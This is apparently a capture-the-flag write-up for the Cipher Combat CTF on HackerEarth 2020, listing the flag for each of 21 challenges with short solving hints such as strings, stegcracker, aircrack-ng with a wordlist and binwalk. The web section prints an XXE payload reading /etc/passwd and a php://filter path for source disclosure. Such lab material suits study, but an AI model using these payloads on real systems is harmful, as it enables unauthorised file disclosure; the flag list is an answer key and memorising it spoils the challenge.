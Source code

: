 
Flags of Cipher Combate CTF Hackerearth 2020

### 1. Reverse Password		
using 'strings' cmd
`HE{W0rK_H@rD_pl@y_Hard3R}`


### 2. Play and Win
using 'strings' cmd
`HE{You_are_a_tic_tac_toe_Ch@mpion}`


### 3. Welcome !!
`HE{Welcome_to_Cipher_Combat}`


### 4. QR-Code!
`HE{Ahhhh!_Y0u_@r3_0N_4!gH7_Tr@cK}`


### 5. Neighbours WiFi !!!
 use stegcracker
`HE{7h!s_!$_$tegn0grPHy}`


### 6. BASE
`HE{K33p_Calm_@nd_Ca4ry_On__Y0U_are_Do!ng_a_Great_j0B}`


### 7. Rotate
`HE{Now_You_Know_How_To_Rotate}`


### 8. CrackME
`HE{You_@re_@_Zip_Cracker}`


### 9. ReadMe
`HE{YoU_are_Absolute_Beginner}`


### 10. Ping
`HE{j@v@_c0d3_1s_m0r3_und3rst@nd@bl3_th@n_sm@l1}`


### 11. My Fav song 	
use online audio morse code detector --> found "QZZAUGPZ" word, this is the pastebin file url
https://pastebin.com/QZZAUGPZ
`HE{4ud10_fil3s_c4n_h1d3_d4t4}`


### 12. Three-words
`HE{talkative_racker_mainstream}`


### 13. Barden 
use stegsolve.jar to find image inside image --> ORC --> reverse brainfuck (x="brainfuck_value"[::-1])
or directly use 'reversefuck' on OCR
`HE{br4inst3gogr4phed}`


### 14. Merge-Me	
 >cmd:- <p> ergecap -w outputfile.pcapng *   [OR]	cat `ls` > x.pcap

`HE{$up3r$3cr3Tu$3R}`


### 15. Crack-Network  		
 aircrack-ng file.cap -w WORDLIST
`HE{budaksetan}`


### 16. NoTe 	

>cmd:- <p> binwalk -e challenge.odt

`HE{h1dd1ng_1nf0_1n_s3cr3t_pl@c3}`


### 17. HIDDEN
`HE{Y0u_G0t_50M3_5K1lLs}`


### 18. Lame Virus
Decompress UPX-compressed


>cmd: <p> upx -d -o file lame-virus.exe

`HE{an0th3er_cl4ssic_m4lwar3}`


### 19. Scroll-Dispatched

use CrypTool then Scytale Cipher with number of turns 5

`HE{i7_n3Ver_g3ts_0ld}`



# Web Challenges

### 20. Lost Cred
just need to add the xml code with some parameter, given as hint in website source code.
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<creds>
	<user>&abc</user>
	<pass>asdf</pass>
</creds>
```

`HE{eCC82cC8CB5fef277401a0A787d1CE1b9f65644F4ef956d5AEfC9fa63A21c842}`


### 21. 2FA
First do the php filter then code review and found sqli and tried to find valid username
```
/index.php/php://filter/convert.base64-encode/resource=vault
```
`HE{wh4t_y0u_br0k3_Da_vAuLt_4ga1n}`

-----------------------------------------------------
